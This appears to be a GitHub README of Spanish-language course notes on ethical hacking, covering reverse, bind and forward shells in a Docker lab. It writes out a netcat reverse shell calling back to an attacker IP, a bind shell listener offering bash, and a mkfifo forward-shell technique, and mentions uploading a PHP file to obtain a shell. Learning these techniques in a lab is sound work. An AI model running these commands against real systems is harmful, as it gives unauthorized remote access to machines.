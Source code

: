# Reverse-shell-bind-shell-forward-shell
Estos son apuntes del curso de savit4ar a introducción al hacking ético

obsidian://open?vault=Introduccion%20al%20hacking%20etico&file=images%2FExplicaciion%20grafica%20sobre%20reverse%20shell.png

## PRACTICA 

**Creamos un archivo Dockerfile y le colocamos lo siguiente:**

```bash
# Usa la imagen base de Ubuntu
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

# Actualiza los repositorios e instala las herramientas
RUN apt-get update && apt-get install -y nano net-tools wget iptables apache2 php

# Exponer el puerto 80
EXPOSE 80
```


Configurar nuestro DockerFile

```bash
sudo docker build -t reverse_shell .
sudo docker run -dit -p 80:80 --cap-add=NET_ADMIN --name Mycontainer reverse_shell
sudo docker exec -it Mycontainer /bin/bash
```

Para la reverse shell solo necesitamos ejecutar una bash con nc (netcat) para que luego en nuestro equipo me ponga en escucha ya que en la reverse shell la maquina victima se conecta a mi maquina

```bash 
ncat -e /bin/bash <MyIP> <puerto>
```
    

en mi maquina se coloca lo siguiente 
``` bash
nc -nlvp 443 
```

Ahora para la bind shell seria en la maquina victima tendria que poner 
que estoy en escucha ofreciendo una bash 
```bash
ncat -nlvp 443 -e /bin/bash
```

y en mi maquina me conecto a la ip de la maquina victima que esta ofreciendo 
la bash seria:

``` bash
nc <ip_victima>
```


Supongamos que hemos subido nuestro archivo php a la pagina y que por medio de ese archivo yo mandare un bash en teoria me deberia dejar, ahora probemos unos parametros de iptables para que no permita ninguna conexión de entrada, mas que el puerto que especificamos para eso he hecho un script en bash lo pueden descargar en mi github [Mi repositorio de GitHub](https://github.com/JJoosh/iptablesauto.git).
Una vez ya configurado intentamos y vemos que no nos deja es aquí donde entra las forward shell donde jugamos con mkfifo, que crea un archivo FIFO (named pipe)  que se utiliza como una especie de “consola simulada” interactiva a través de la cual  el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa  el atacante redirige el tráfico a través del archivo FIFO, lo que permite la comunicación bidireccional con la máquina remota. 

El Hacker savit4r nos ha facilitado todo esto que les  menciono ha hecho un script que automatice esto

[Repositorio de savit4r](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py)

Pero entendamos un poco como funciona para ello coloquemos este comando en nuestra terminal 

``` bash
 mkfifo input; tail -f input | /bin/bash 2>&1 > output
```

1. **mkfifo input:** Este comando crea un archivo especial conocido como FIFO (First In, First Out) llamado "input" en el directorio actual. Un FIFO es una tubería sin nombre que permite la comunicación entre procesos.
2. **tail -f input: **Este comando inicia el seguimiento del archivo "input" recién creado utilizando el comando tail. La opción -f significa "seguimiento continuo", lo que hace que tail permanezca en ejecución y muestre las nuevas líneas agregadas al archivo en tiempo real.
3. **|**: Este símbolo se utiliza para redireccionar la salida estándar de un comando hacia la entrada estándar de otro comando. En este caso, está redirigiendo la salida del comando tail al siguiente comando.
4. **/bin/bash 2>&1 > output**: Este comando inicia una nueva instancia de la shell Bash. Aquí, 2>&1 redirige la salida de error estándar (stderr) al mismo lugar que la salida estándar (stdout). Luego, > redirige la salida estándar de la shell Bash al archivo llamado "output".

Entonces, en resumen, el comando crea un FIFO llamado "input", luego inicia un proceso que lee continuamente de ese FIFO (tail -f input), y las líneas leídas son enviadas a una instancia de la shell Bash que está ejecutándose. Cualquier salida (tanto estándar como de error) generada por la shell Bash se redirige al archivo "output". Esto puede ser utilizado para capturar la salida de comandos ejecutados en la shell Bash en tiempo real.

